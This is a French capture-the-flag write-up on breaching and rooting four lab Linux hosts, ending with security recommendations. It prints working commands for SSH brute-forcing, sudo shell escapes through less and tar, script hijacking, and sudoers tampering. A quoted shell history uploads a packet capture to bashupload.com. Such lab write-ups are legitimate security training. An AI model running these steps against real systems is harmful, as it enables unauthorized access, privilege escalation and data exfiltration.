

# Introduction

## Leonardo Greco Picoli

Objectives: **"_Capture the thophee_"**, 4 systèmes linux, avoir accès root dans 4 machines linux, à partir d'une VPN qui nous a été donné.

IP de la machine cible: 10.129.42.10  

## **Trophee 1 - Accès à la machine web1**

**veo5eixue3aer3mailiedoh4iezaeK**

```
└─$ nmap 10.129.42.0/24

Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-25 07:29 EDT
Nmap scan report for 10.129.42.1
Host is up (0.049s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
25/tcp open  smtp

Nmap scan report for 10.129.42.10
Host is up (0.049s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 256 IP addresses (2 hosts up) scanned in 3.78 seconds
```

Alors, pour accéder au service SSH on a utilisé la commande suivante:

`patator ssh_login host=10.129.42.10 user=FILE0 password=FILE1 0=users.txt 1=passwords.txt -x ignore:mesg='Authentication failed.'`

Le contenu du fichier [users.txt]() contient les 20 users le plus utilisés pour les systèmes et le fichier [password.txt]() contient les 200 mots de passe le plus utilisés pour le système.

Déjà, on peut voir que le SSH a une vulnerabilité pour ne pas utiliser l'authentication pour clé privé et publique (comme RSA, pour exemple), ça permet qu'on fasse le brute force sur le service SSH pour essayer de trouver un user et un mot de passe.
Effectivement, ça a marché et on a trouvé:

**User:** _www-data_  
**Password:** _batman_

Alors on fait `$ ssh www-data@10.129.42.10` en utilisant le mot de passe trouvé, après on fait `$ ls` et on arrive déjà a trouver un **trophee.trp**

```
The authenticity of host '10.129.42.10 (10.129.42.10)' can't be established.
ED25519 key fingerprint is SHA256:ELUexxMXAaCS1aMnQzCTDJ65WWB03h1BSaVHdqNhfNw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.42.10' (ED25519) to the list of known hosts.
www-data@10.129.42.10's password: 
Last login: Tue Apr 25 12:01:24 2023 from 172.31.7.254
www-data@web1:~$ ls
h  html  out2.pcap  out.pcap  trophee.trp
```

## **Trophee 2 - Rooting la machine web1**

**wohnohgie7apah7hohquiov5ohZahg**

Maintenant, on fait `sudo -l` pour voir si on peut executer des commandes avec de l'élévation de privilèges on a le résultat suivant:

```
www-data@web1:~$ sudo -l
...  

User www-data may run the following commands on web1:
    (root) NOPASSWD: /usr/bin/less /var/log/apache2/error.log
```

On peut voir qu'on peut éxécuter la commande comme root. Alors on fait:

`sudo -u root /usr/bin/less /var/log/apache2/error.log` 

et on ouvre le bash via **less** la commande:

`!bash` 

comme ça, on devient **root**, et en tant que root, on accède le dossier de root en faisant `cd` et après on fait `ls`. Comme ça, on trouve le deuxième **trophee.trp**

```
root@web1:/var/www# cd
root@web1:~# ls
Downloads  trophee.trp
root@web1:~# cat trophee.trp
wohnohgie7apah7hohquiov5ohZahg
```

## **Trophee 3 - Accès à la machine web2**

**xohlohp6Zeikai8idaxee3ciexahvi**

Dès qu'on a root sur la machine `web1` on peut voir tous les autres users de la machine en faisant: 

`ls /home` on voit:

```
root@web1:~# ls /home
batman  joshua  luiggi  random
```

On commence ici par explorer le premier user `batman` en faisant

`ls -la /home/batman` on voit:

```
root@web1:/home/batman# ls -la
total 80
drwx------ 3 batman batman  4096 Apr 27 11:02 .
drwxr-xr-x 6 root   root    4096 Apr 25 08:15 ..
-rw------- 1 batman batman   458 Apr 13 19:57 .bash_history
-rw-r--r-- 1 batman batman   220 Mar 18  2021 .bash_logout
-rw-r--r-- 1 batman batman  3541 Apr 13 19:57 .bashrc
-rw-r--r-- 1 root   root    8212 Apr 27 07:12 out2.pcap
-rw-r--r-- 1 root   root   20023 Apr 27 07:12 out.pcap
-rw-r--r-- 1 batman batman   807 Mar 19  2021 .profile
drwx------ 2 batman batman  4096 Apr 25 15:13 .ssh
-rw-r--r-- 1 root   root   12288 Apr 26 14:44 .telnet_traffic.pcap.swp
-rw------- 1 batman batman  7881 Apr 27 11:02 .viminfo
```

Et en affichant le contenu de `.bash_history` pour essayer de découvrir quelque chose on voit:

```
root@web1:/home/batman# cat .bash_history 
tcpdump -elnXi eth0 port 23 &
telnet 10.129.42.11
ls -la
tcpdump -r out.pcap -v
tcpdump -qns 0 -A -r out.pcap 
tcpdump -ns 0 -r out.pcap 
tcpdump -nqs 0 -r out.pcap 
tcpdump -ns 0 -A -r out.pcap 
tcpdump -qns 0 -X -r out.pcap 
tcpdump -qns 0 -1 -r out.pcap 
tcpdump -qns 0 -A -r out.pcap 
curl bashupload.com -T out.pcap 
cd
tcpdump -qns 0 -A -r out.pcap 
ssh batman@10.129.42.11
telnet 10.129.42.11
cp out.pcap /var/www/html/
cp out2.pcap /var/www/html/
ls
```

On voit ici qu'on peut simplement copier le fichier wireshark `.pcap` dans le fichier `/var/www/hmtl` et le télécharger en accédant le site http. En faisant:

`cp out2.pcap /var/www/html/`

Après on accède le site dans l'URL `http://10.129.42.10/out2.pcap` comme montre l'image, pour télécharger le fichier wireshark:


Après avoir télécharger le fichier on peut l'ouvrir avec wireshark et faire _"Follow TCP Stream"_ , qui donne ça: 


Ici, on peut récuperer le mot de passe pour batman dans la machine `10.129.42.11` et on peut accéder la machine via SSH: 

```
ssh batman@10.129.42.11
password: Solenoid123
```  

et on trouve le trophee:

```
batman@web2:~$ ls 
trophee.trp
batman@web2:~$ cat trophee.trp
xohlohp6Zeikai8idaxee3ciexahvi
```

## **Trophee 4 - Rooting la machine web2**

**chahf5toeseikee8aiSh6aseem7she**

Pour rooter la machine `web2` on commence par faire `sudo -l` pour voir si on trouve de l'évélation de privilèges:

```
batman@web2:~$ sudo -l
Matching Defaults entries for batman on web2:
    env_keep+=PYTHONPATH, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User batman may run the following commands on web2:
    (root) NOPASSWD: /bin/tar
```

Ici on voit qu'on peut rooter si on arrive a éxécuter une commande bash avec la commande `tar`. Si on ouvre le fichier `.bash_history` de l'user, on voit: 

```
batman@web2:~$ cat .bash_history 
...
less .bash_history 
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
exit
```

Alors on peut taper la commande: 

`sudo -u root tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=bash`

et on root la machine **web2** et on trouve le **trophee:**

```
root@web2:~# ls
trophee.trp
root@web2:~# cat trophee.trp
chahf5toeseikee8aiSh6aseem7she
```

## **Trophee 5 - Accès à la machine web3**

**fohj2queethieveic2uiCahphu2Ga1**

Pour accéder à la machine web3, on revient à la machine `root@web1` et on entre dans l'user luiggi pour capturer son `.bash_history`:

```
root@web1:/home/luiggi# cat .bash_history 

...

ls -a
cat .bash_history 
ssh -i .ssh/id_rsa luiggi@10.1^
ssh -i .ssh/id_rsa luiggi@10.129.42.12
```

On peut voir qui la dernière commande fait une connection SSH avec la machine `10.129.42.12`. Lorsqu'on exécute la commande `ssh -i .ssh/id_rsa luiggi@10.129.42.12`, on peut accéder à luiggi dans web3 et récuperer le **trophee**:

```
root@web1:/home/luiggi# ssh -i .ssh/id_rsa luiggi@10.129.42.12
Linux web3 4.19.0-22-cloud-amd64 #1 SMP Debian 4.19.260-1 (2022-09-29) x86_64

...

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Apr 27 12:59:47 2023 from 10.129.42.10
luiggi@web3:~$ ls
monitor  monnitor2.sh  trophee.trp
luiggi@web3:~$ cat trophee.trp
fohj2queethieveic2uiCahphu2Ga1
```

## **Trophee 6 - Rooting la machine web3**

**fohj2queethieveic2uiCahphu2Ga1**

Rooter la machine directement via `luiggi@web3` est difficile, par contre on peut voir que dans le fichier `.bash_history` de l'user **joshua** on voit le contenu suivant: 

```
root@web1:/home/joshua# cat .bash_history 
ssh -i .ssh/id_rsa root@10.129.42.12
ls -la
ssh -i .ssh/id_rsa root@10.129.42.12
cat .ssh/id_rsa.pub 
vi .ssh/id_rsa.pub 
ssh -i .ssh/id_rsa root@10.129.42.12
ssh -i .ssh/id_rsa root@10.129.42.12
```

Lorsqu'on exécute la commande `ssh -i .ssh/id_rsa root@10.129.42.12`, on voit être affiché l'exécution du bash script **monitor/monitor.sh** de **luiggi@web3** comme montre l'image ci-dessous:


et quand on choisit l'option 3, on voit être **root**, ce qui signifie que l'exécution est fait comme root. Alors, en luiggi il suffit de changer le contenu du fichier `monitor/monitor.sh`. Le problème ici c'est qu'on n'a pas des droits pour écriture dans le fichier `monitor.sh`:

```
luiggi@web3:~/monitor$ ls -la
total 12
drwxr-xr-x 2 root   root   4096 Apr 27 10:11 .
drwxr-xr-x 6 luiggi luiggi 4096 Apr 27 14:30 ..
-rw-r--r-- 1 root   root   1203 Apr 22 23:48 monitor.sh
```

Par contre, on a le droit de modifier le dossier père: 

```
luiggi@web3:~$ ls -la
total 60
drwxr-xr-x 6 luiggi luiggi  4096 Apr 27 14:30 .
drwxr-xr-x 3 root   root    4096 Mar 18  2021 ..
...

drwxr-xr-x 2 root   root    4096 Apr 27 10:11 monitor

...
```

Alors il suffit de juste changer le nom du dossier `monitor` et créer une fake dossier `monitor` et créer une fichier qui s'appelle `monitor.sh` dedans:

```
luiggi@web3:~$ ls
monitor  monitor-changed  trophee.trp
```

le contenu du fichier `monitor.sh` c'est une commande pour ouvrir bash, pour que lorsq'on exécute la commande SSH à partir de joshua, il ouvre le bash:

```bash
#!/bin/bash
/bin/bash
```

Enfin, lorsqu'on fait la commande: on root la machine 3 à partir de **joshua@web1**

```
root@web1:/home/joshua# ssh -i .ssh/id_rsa root@10.129.42.12
root@web3:~# ls
output.txt  trophee.trp
root@web3:~# cat trophee.trp 
fohj2queethieveic2uiCahphu2Ga1
root@web3:~#
```

## **Trophee 7 - Bonus trophees à partir de web1**

**c9b5616d15f21313f7a7e770b17a67db**

À partir de web1, si on fait

`nmap 10.129.42.0/24`

on peut découvrir des nouvelles machines: 

```
Nmap scan report for 10.129.42.1
Host is up (0.000093s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
25/tcp open  smtp
MAC Address: FE:00:5D:0A:78:D4 (Unknown)

Nmap scan report for 10.129.42.11
Host is up (0.000075s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
23/tcp open  telnet
MAC Address: 5E:56:5B:6D:4C:99 (Unknown)

Nmap scan report for 10.129.42.12
Host is up (0.000072s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: CA:8A:62:A2:5A:D3 (Unknown)

Nmap scan report for 10.129.42.20
Host is up (0.000070s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 9A:3A:3E:06:CB:8B (Unknown)

Nmap scan report for 10.129.42.21
Host is up (0.000084s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
111/tcp  open  rpcbind
4343/tcp open  unicall
MAC Address: AE:8D:75:2A:08:CE (Unknown)

Nmap scan report for 10.129.42.253
Host is up (0.000074s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 0A:5E:F7:99:0C:F5 (Unknown)

Nmap scan report for 10.129.42.10
Host is up (0.0000070s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 256 IP addresses (7 hosts up) scanned in 207.48 seconds
```

Ici, on peut voir qu'il y a une machine qu'on n'a pas encore découvert, que c'est la machine `10.129.42.253` qui a une porte http ouverte, alors si on fait, par exemple 

`curl 10.129.42.253` 

on voit être affichée la page:

```html
<html>
    <h1>Presque fini...</h1>
    <a href="liste">liste des fichiers disponibles</a>
    <a href="auth.php">Formulaire d'authentification</a>
</html>
```

alors si on fait `curl 10.129.42.253/liste/` on a: 

```html
<html>
 <head>
  <title>Index of /liste</title>
 </head>
 <body>
<h1>Index of /liste</h1>
  <table>
   <tr><th valign="top"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"></td><td><a href="/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="doc2.pdf">doc2.pdf</a></td><td align="right">2021-05-05 21:50  </td><td align="right"> 54K</td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="trophee.trp">trophee.trp</a></td><td align="right">2022-03-16 21:16  </td><td align="right"> 33 </td><td>&nbsp;</td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.38 (Debian) Server at 10.129.42.253 Port 80</address>
</body></html>
```

On peut voir un trophee ici déjà et on peut l'avoir en faisant:

`curl 10.129.42.253/liste/trophee.trp`, ce qui affiche:

```
root@web1:~# curl 10.129.42.253/liste/trophee.trp
c9b5616d15f21313f7a7e770b17a67db
```

## **Trophee 8 - Accès à la machine web4**

**387dc01c821035de8a10afb39d97c9f2**

On peut voir qu'il y a une autre document qui peut-être peut nous donner plus d'informations sur l'user de la machine 10.129.42.253 pour qu'on puisse l'accéder via SSH. Alors on télécharge le document en faisant 

`wget 10.129.42.253/liste/doc2.pdf` et on le transfère pour pouvoir l'accéder sur notre machine (comme on a fait avec le document out2.pcap) en faisant `cp doc2.pdf /var/www/html/` 

Dès qu'on télécharge le document, on peut accéder ses propriétés et voir l'author **luigi** comme montre l'image ci-dessous:




Alors, on peut essayer de brute-forcer pour trouver une mot de passe. Le problème c'est qu'on n'a pas patator dans la machine web1 pour nous aider à brute forcer. Alors, on peut utiliser nmap pour faire le brute force: 

`nmap 10.129.42.253 -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt`

Et finalement, on arrive à trouver le mot de passe pour luiggi pour la machine web4:

```
Nmap scan report for 10.129.42.253
Host is up (-0.18s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute: 
|   Accounts: 
|     luiggi:sunshine - Valid credentials
|_  Statistics: Performed 52 guesses in 24 seconds, average tps: 2.0
MAC Address: 0A:5E:F7:99:0C:F5 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 25.94 seconds
```

On accède la machine en faisant `ssh luigi@10.129.42.253`, et on trouve le trophee:

```
luiggi@web4:~$ ls
apache_service.log  trophee.trp
luiggi@web4:~$ cat trophee.trp 
387dc01c821035de8a10afb39d97c9f2
```

## **Trophee 9 - Rooting la machine web4**

**me2Pooxeeneezooth7iech3bohFei1**

Comme d'habitude on commence par faire un scan des commandes d'élévation de privilèges `sudo -l`, ce qui donne:

```
Matching Defaults entries for luiggi on web4:
    env_keep+=PYTHONPATH, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User luiggi may run the following commands on web4:
    (root) NOPASSWD: /bin/systemctl restart apache2
```

Si on voit le [manuel](https://www.commandlinux.com/man-page/man1/systemctl.1.html) de systemctl, on peut voir que lorsqu'on éxécute la commande `systemctl restart apache2`, le fichier `apache2.service` responsable va être exécuté. Le fichier se trouve dans le path `/lib/systemd/system/apache2.service`. Alors, si on fait 

`cat /lib/systemd/system/apache2.service` on voit:

```
[Unit]
Description=The Apache HTTP Server
After=network.target remote-fs.target nss-lookup.target
Documentation=https://httpd.apache.org/docs/2.4/

[Service]
Type=forking
Environment=APACHE_STARTED_BY_SYSTEMD=true
ExecStartPre=/bin/bash /usr/local/bin/script.sh
ExecStart=/usr/sbin/apachectl start
ExecStop=/usr/sbin/apachectl stop
ExecReload=/usr/sbin/apachectl graceful
PrivateTmp=true
Restart=on-abort

[Install]
WantedBy=multi-user.target
```

Ici on peut voir que le script `/usr/local/bin/script.sh` est exécuté lorsqu'on fait un _systemctl restart_. Comme on n'a pas droit de modifier directement le fichier `apache2.service` on peut, alors, essayer de modifier le fichier `/usr/local/bin/script.sh`. En effet, on a droit d'écriture à cette fichier: 

```
luiggi@web4:~$ ls -la /usr/local/bin/script.sh
-rwxrwx--- 1 luiggi www-data 154 Apr 27 16:54 /usr/local/bin/script.sh
```

et si on ouvre le fichier, on voit: 

```
luiggi@web4:~$ cat /usr/local/bin/script.sh
echo "Service Apache Correctly started/stopped as instructed in apache /etc/systemd configuration file" >> /home/luiggi/apache_service.log
```

Alors, on peut juste le modifier pour ajouter l'user luiggi comme un sudoer, en ajoutant la ligne suivant au début du fichier _/usr/local/bin/script.sh_: 

`echo "luiggi ALL=(ALL:ALL) ALL" >> /etc/sudoers`

maintenant lorsqu'on exécute la commande

`sudo -u root /bin/systemctl restart apache2`

on peut maintenant devenir root (yay!) en faisant

`sudo su`

Et on trouve le **trophee**

```
luiggi@web4:~$ sudo su
root@web4:/home/luiggi# cd
root@web4:~# ls
trophee.trp
root@web4:~# cat trophee.trp 
me2Pooxeeneezooth7iech3bohFei1
root@web4:~# 
```

## **Trophee 10 - Bonus trophee machine web4**

**b539c7561d36b90e8c0f5da217da8d52**

On peut trouver encore une autre trophee pour l'user **lorenzo**. Lorsqu'on accède le fichier `/home` on peut trouver les autres utilisateurs de la machine **web4**.

```
root@web4:~# cd /home/
root@web4:/home# ls
lorenzo  luiggi
```

On voit ici qu'on a encore lorenzo comme utilisateur qui reste inexploré. Lorsqu'on accède le dossier user, on voit le **trophee**

```
root@web4:/home# cd lorenzo/
root@web4:/home/lorenzo# ls
trophee.trp
root@web4:/home/lorenzo# cat trophee.trp 
b539c7561d36b90e8c0f5da217da8d52
```

Merci, c'était vraiment fun!


# **Recommendations de sécurité et conclusion**

D'abord, on peut noter que il y a beaucoup de fautes de sécurité, principalement, des fautes de sécurité qui sont liés aux faibles mots de passe. On remarque qu'on a pu accéder plusieurs fois dans des différents utilisateurs, juste en utilisant une liste des 200 mots de passe de Wikipedia les plus utilisés aujourd'hui. Donc, une conseille est des créer des longues mots de passe qui utilises des charactères speciaux et des chiffres.

Deuxièmement, dès qu'on avait accès à une tel machine, on a pu gagner acèss root en exploitant des fautes de l'évélation de privilèges. Il y a plusieurs programmes dans le système linux qui peuvent être exploiter pour gagner une élévation de privilèges, donc il faut bien faire attention, vu que une fois avec les privilèges d'administrateur, un utilisateur malveillant peut accéder à des documents sensibles, installer des logiciels malveillants, modifier de la configuration du système, ou attaquer le réseau, par exemple. 

Pour réduire les risques liés à l'élévation de privilèges pour les utilisateurs dans une machine Linux, on peut: 

1. Limiter les privilèges des utilisateurs : S'assurer que les utilisateurs n'ont pas plus de privilèges que nécessaire pour accomplir leur travail. Éviter de donner des privilèges administratifs à des utilisateurs normaux.

2. Utiliser une authentification forte : utiliser une authentification forte pour protéger les comptes d'utilisateur, tels que des mots de passe forts et l'authentification à deux facteurs.

3. Surveiller des activités d'utilisateur : surveiller les activités des utilisateurs pour détecter les comportements suspects, tels que des tentatives répétées d'authentification ou des accès à des fichiers sensibles.

4. Metter à jour régulièrement le système d'exploitation et les logiciels, ou bien Utiliser des outils de sécurité, tels que des antivirus et des pare-feux, pour détecter et prévenir les attaques malveillantes.

Troisièmement, on peut voir, que les fichiers PDF donnent des indices pour récuperer des informations d'utilisateur, une bonne pratique ici c'est de faire attention aux metadonnés, ou aussi de crypter les fichier qui ont des données sensibles.

Comme adminstrateur de système, il est aussi vraiment important de changer de privilèges d'écriture, lécture et executions des dossiers et fichiers des utilisateurs du système. Cela est important parce que comme on a vu dans le cas du **trophee 5** on ne pouvait pas changer le fichier `monitor.sh` pour gagner des privilèges, mais on pouvait quand-même simplement changer le nom du dossier parent de ce fichier et créer un nouveau dossier avec un nouveau `monitor.sh` dedans pour gagner l'accèes.

Pour conclure, on peut dire, en matière de sécurité de l'information, on est jamais trop prudents, et plus on ajoute de protections de systèmes, plus il devient difficile pour un utilisateur malveillant de récuperer des informations. 
